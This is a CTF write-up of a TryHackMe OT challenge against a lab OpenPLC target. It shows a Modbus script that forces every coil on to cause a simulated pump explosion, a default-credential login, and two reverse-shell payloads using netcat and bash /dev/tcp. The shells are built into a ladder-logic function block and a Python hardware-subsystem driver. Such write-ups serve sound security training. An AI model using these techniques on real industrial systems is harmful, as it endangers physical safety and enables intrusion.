







# Kaboom: TryHackMe - Industrial Intrusion - Task 8

> **Solved by: StealthGuy**, **[Writeup by: StealthGuy](https://stealthguy.net/kaboomthm/kaboom/)**




## Writeup

TL;DR: Crafting malicious Modbus packets and gaining a reverse shell by uploading a malicious PLC program.

```
This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.
```


### Part 1 - Modbus

The first part consists of causing an explosion in the facility's pumping system.
We begin with reconnaissance:


```bash
nmap -p- --open -sS --min-rate 5000 -v -n -Pn -oG fullscan 10.10.23.8

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
102/tcp   open  iso-tsap
502/tcp   open  mbap
1880/tcp  open  vsat-control
8080/tcp  open  http-proxy
44818/tcp open  EtherNetIP-2
```

The first thing I did was visit the website on port `80`. There was a video of a working pump. This webpage was populated using a script in the HTML that fetches data from `/api/state`.



Next, I visited port `8080` and found an OpenPLC v3 login page. From previous experience with OpenPLC, I knew the default credentials are `openplc:openplc`, so I tried them—and they worked.

Then I checked out port `1880`, which showed a Node-RED login page. However, I couldn't access it.

I then turned my attention to ports `502`, `102`, and `44818`, which are commonly used in the OT (Operational Technology) domain—specifically, Modbus TCP, Siemens S7 (proprietary), and Ethernet/IP (Rockwell), respectively.

OpenPLC typically communicates via Modbus TCP because it's open and widely supported. While OpenPLC does support S7 and Ethernet/IP through additional libraries, Modbus is the easiest to interact with. So, I began inspecting the Modbus interface.

Modbus primarily uses the concept of "coils." Coils are boolean variables (ON/OFF). To explode the pump, I had the idea to turn all the coils ON.

To do this, I connected to the PLC on port `502` using a Python library called `pymodbus`, which enables Modbus communication:

```bash
pip install pymodbus
```

The script I wrote:

```python
from pymodbus.client import ModbusTcpClient
import requests
import time

# IP of the PLC
PLC_IP = "10.10.180.166"

# Modbus TCP port (default: 502)
MODBUS_PORT = 502

# Connect to the PLC over Modbus TCP
client = ModbusTcpClient(PLC_IP, port=MODBUS_PORT)
connection = client.connect()

if connection:
    print("Connected to PLC on Modbus TCP.")
    coil = 0
    while True:
        print(f"Attempting to writing to coil at address {coil}...")
        result = client.write_coil(coil, True)  # True means ON (1)
        
        if result:
            print(f"Successfully write to coil at address: {coil}.")
        else:
            print(f"Failed to write to coil at address {coil}.")
        
        time.sleep(2)
        
        # Verify the status of the coil after writing (check if it's ON)
        status = client.read_coils(coil, count=1) 
        print(requests.get(f"http://{PLC_IP}/api/state").text)  # fetch the api to see if the pump exploded
        print(f"Coil at address {coil} status: {status.bits[0]}")  # 1 means ON, 0 means OFF
        coil += 1 
    
else:
    print("Failed to connect to PLC on Modbus TCP.")

# Close the connection
client.close()
```
Note: I used `requests` to poll the `/api/state` endpoint to see if the pump's state changed.

Script output:

```
Coil at address 8 status: True
Attempting to open the gate by writing to coil at address 9...
Successfully opened the gate at address 9.
{
  "status": "Cooling OFF, Low Temperature",
  "video": "normal"
}

Coil at address 9 status: True
Attempting to open the gate by writing to coil at address 10...
Successfully opened the gate at address 10.
{
  "status": "Explosion Detected!",
  "video": "explodedflag23"
}
```
After reloading `MACHINE_IP:80`, the first flag appeared in the video.





### Part 2 - Reverse Shell


Now we’re asked for another flag, referred to as the **Ubuntu flag**. Here's where things get interesting.

OpenPLC is a *soft PLC*, meaning it runs as software on a general-purpose machine (often Ubuntu) rather than as dedicated hardware. Soft PLCs are typically used for learning and simulation because they lack the real-time guarantees required in industrial environments.

OpenPLC consists of two parts: the **Runtime** and the **Editor**. On port `8080`, we saw the OpenPLC **Runtime** login interface (which accepted default credentials), so it's reasonable to assume OpenPLC is running on an Ubuntu machine.

But how do we access the underlying file system via the OpenPLC dashboard?

The OpenPLC dashboard allows enabling/disabling protocols and, more importantly, uploading PLC programs. Which of these features could be exploited?

At first, I managed to trigger a Flask error using the "Run" button in the dashboard. Since Flask was running with `debug_mode=True`, I explored command injection opportunities—but found none.

I searched for known RCE vulnerabilities in OpenPLC Runtime, but came up empty. Then I focused on the program upload feature and realized this might not be a typical web challenge—it’s about **getting a reverse shell** via PLC programming.

As mentioned earlier, OpenPLC supports the IEC 61131 standard, which defines industrial programming languages like Ladder Diagram (LD), Structured Text (ST), etc. What if we could embed a reverse shell into the PLC program?

**Can you write a reverse shell in Ladder Logic?**

Yes! Thanks to this excellent article: [Snakes and Ladder Logic](https://www.pentestpartners.com/security-blog/snakes-and-ladder-logic/)

In short: you can create a **custom Function Block** that executes a reverse shell, and call it from your PLC program—a real backdoor.

In the article example, the shell is triggered when a button is pressed. In our case, since nothing is wired to our Soft PLC, we trigger it automatically.

I remembered that installing the OpenPLC Editor on Linux was pretty messy, and since I was in a hurry, I asked my friend Davide (thanks Davide!) to install it on his Windows PC. Then we completed the challenge together.

We created a new Ladder Diagram project, wrote a custom Function Block, and embedded it in the main program.

Payload screenshots:






Since nothing is wired to this PLC, our ladder logic simply consists of the Function Block placed between the power rails—it runs unconditionally.

The code we used (adapted from the article) was:

```sh
IF (exe = TRUE) THEN
  {system("mknod /tmp/pipe p");}
  {system("/bin/sh 0</tmp/pipe | nc <IP_ADDRESS> <PORT> 1>/tmp/pipe");}
  done := TRUE;
  return;
END_IF;
done := FALSE;
return;
```

After compiling it to a `.st` file (using the orange arrow button in the toolbar), we uploaded `rev_shell.st` via the OpenPLC Runtime dashboard.

> ⚠️ **Warning:** Don’t forget to start your **listener!**

Finally, we clicked the "RUN PLC" button—and we had a reverse shell.



We can now navigate the Ubuntu filesystem and retrieve the flag located at `/home/ubuntu/flag.txt`.




## Conclusion

I found this challenge extremely interesting because I really like to experiment with resolving "strange" challenges that differ from the usual categories. I've always been curious aubout OT (Operational Technology), which differs from IT technologies but shares some common security flaws. In future CTFs, I would like to dive deeper into OT technologies and better understand the differences and connections between IT security and OT security, while continuing to learn and apply my skills about this topic.


---

### EDIT: 

> After sharing this writeup on the fantastic TryHackMe Discord group, a friendly user named **Korizma** shared another possible solution, which we decided to include here for completeness, by exploiting the "Python Linux Hardware Subsystem".

**Here is Korizma’s full message:**

You can also get a reverse shell from KABOOM PT.2 using the Python Linux Hardware Subsystem. : the Hardware tab in the web dashboard, which featured a dropdown menu for "Python on Linux (PSM)". This powerful subsystem is designed to allow administrators to write custom drivers but effectively creates a feature-based RCE, allowing arbitrary Python code to be executed by the OpenPLC runtime.

  Exploit Development & Execution
  Initial payloads placed in the hardware_init() function failed, likely because the PLC's network stack was not fully initialized.

  The successful exploit was triggered from within the update_inputs() function, which is called on every PLC cycle. This ensured the system was in a stable state before execution. To prevent the main PLC loop from crashing, the final payload launches the reverse shell in a separate, non-blocking thread.

  Final PSM Exploit Payload
  This code was pasted into the PSM editor, saved, and triggered by restarting the PLC. 

  ```python

  # Final, Concrete PSM Exploit Payload
  import os
  import threading

  # A flag to ensure the exploit only runs once.
  exploit_attempted = False
  counter = 0

  def hardware_init():
      # Left empty to ensure PLC stability on boot.
      pass

  def update_inputs():
      # This function is called on every PLC cycle.
      global counter, exploit_attempted
      counter += 1
      
      # Execute exploit after 5 cycles to ensure PLC is stable.
      if counter == 5 and not exploit_attempted:
          exploit_attempted = True
          exploit_thread = threading.Thread(target=run_exploit, daemon=True)
          exploit_thread.start()

  def run_exploit():
      # This function contains the single, most reliable reverse shell payload.
      os.system("bash -c 'bash -i >& /dev/tcp/YOUR_LISTENER_IP/4444 0>&1'")

  def update_outputs():
      pass

```
  Pasting this code and restarting the PLC resulted in a root shell. GGs! 👑


